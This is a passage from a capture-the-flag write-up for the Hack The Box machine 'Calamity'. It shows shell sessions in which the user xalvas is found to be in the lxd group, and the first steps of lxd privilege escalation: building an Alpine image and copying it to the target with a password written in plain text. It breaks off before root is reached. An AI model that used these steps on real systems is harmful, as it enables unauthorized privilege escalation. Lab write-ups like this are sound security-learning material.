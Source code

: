 ```bash


Last login: Fri Jun 30 08:27:25 2017 from 10.10.13.44
xalvas@calamity:~$ id
uid=1000(xalvas) gid=1000(xalvas) groups=1000(xalvas),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
xalvas@calamity:~$ wc user.txt
 1  1 33 user.txt
```

We've already opened user.txt via HTTP earlier, but we can also read it as `xalvas`.

## Privilege escalation

```bash
xalvas@calamity:~$ id
uid=1000(xalvas) gid=1000(xalvas) groups=1000(xalvas),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

`xalvas` is part of the `lxd` group, this can be compared to being in the docker group.

```bash
luc@kali:~/HTB/Calamity$ mkdir lxd
luc@kali:~/HTB/Calamity$ cd lxd
luc@kali:~/HTB/Calamity/lxd$ git clone https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 27, done.
remote: Total 27 (delta 0), reused 0 (delta 0), pack-reused 27
Receiving objects: 100% (27/27), 16.00 KiB | 264.00 KiB/s, done.
Resolving deltas: 100% (6/6), done.
luc@kali:~/HTB/Calamity/lxd$ cd lxd-alpine-builder/
luc@kali:~/HTB/Calamity/lxd/lxd-alpine-builder$ ./build-alpine -a i686
build-alpine: must be run as root
luc@kali:~/HTB/Calamity/lxd/lxd-alpine-builder$ sudo ./build-alpine -a i686
...
OK: 8 MiB in 19 packages
luc@kali:~/HTB/Calamity/lxd/lxd-alpine-builder$ ls -la
total 3188
drwxr-xr-x 3 luc  luc     4096 Jun 24 13:54 .
drwxr-xr-x 3 luc  luc     4096 Jun 24 13:53 ..
-rw-r--r-- 1 root root 3210657 Jun 24 13:54 alpine-v3.12-i686-20200624_1354.tar.gz
-rwxr-xr-x 1 luc  luc     7498 Jun 24 13:53 build-alpine
drwxr-xr-x 8 luc  luc     4096 Jun 24 13:53 .git
-rw-r--r-- 1 luc  luc    26530 Jun 24 13:53 LICENSE
-rw-r--r-- 1 luc  luc      768 Jun 24 13:53 README.md
luc@kali:~/HTB/Calamity/lxd/lxd-alpine-builder$ scp alpine-v3.12-i686-20200624_1354.tar.gz xalvas@10.10.10.27:
xalvas@10.10.10.27's password: 18547936..*
alpine-v3.12-i686-20200624_1354.tar.gz  100% 3135KB   6.9MB/s   00:00
```

We create a new [Alpine](https://alpinelinux.org/) machine, we use Alphine because it's very small and we need to transfer this file from our machine to the HTB machine (HTB machines don't have internet).
